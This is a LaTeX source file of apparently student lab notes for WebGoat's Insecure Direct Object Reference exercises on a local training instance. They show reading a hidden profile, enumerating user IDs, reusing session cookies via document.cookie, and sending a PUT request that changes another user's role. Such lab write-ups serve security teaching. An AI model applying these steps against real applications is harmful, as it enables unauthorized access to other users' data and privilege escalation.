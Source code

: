 \documentclass[a4paper, 10pt, titlepage]{article}
\begin{document}
\subsection*{Usability}
Security information is communicated, collected or made modifiable through an interface having quite poor usability.

\newpage
\section{Laboratory 5}
\subsection{WebGoat - Access Control Flaws}
The access control flaw covered is the Direct Object Reference.
Direct Object References are when an application uses client-provided input to access data and objects.
\begin{verbatim}
https://some.company.tld/dor?id=12345
\end{verbatim}
These are considered insecure when the reference is not properly handled and allows for authorization bypasses or disclose private data that could be used to perform operations or access data that the user should not be able to perform or access. \\
In exercise 3 analyze the page and in the network tab search for the profile file. It is easy to recover the infos hidden from the page:
\begin{lstlisting}
  "role" : 3,
  "color" : "yellow",
  "size" : "small",
  "name" : "Tom Cat",
  "userId" : "2342384"
\end{lstlisting}
In exercise 4 just access the page with:
\begin{verbatim}
WebGoat/IDOR/profile/2342384
\end{verbatim}
In exercise 5 try to change the id number, until you get to:
\begin{verbatim}
http://localhost:8881/WebGoat/IDOR/profile/2342388

"{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}"
\end{verbatim}
Editing can be done with or without ZAP:
\begin{itemize}
\item \textbf{With ZAP}: modify the request, making it a PUT and adding the parameters in the body
\item \textbf{Without ZAP}: open postman and do a GET with the above URL. The session cookies from the current session ('\lstinline|document.cookie|' in the console of firefox) have to be added to localhost (with path '/WebGoat'), so that the logins are already executed. Then change the request to a PUT and in the \textbf{body} tab change to \textbf{raw} and switch from \textbf{text} to \textbf{JSON}, then write:
\begin{lstlisting}
{
	"role" : 1,
	"color" : "red",
	"size" : "large",
	"name" : "Buffalo Bill",
	"userId" : "2342388"
}
\end{lstlisting}
\end{itemize}


\subsection{Homework 5}
	See the linked PDF for more informations about it. 
\end{document}

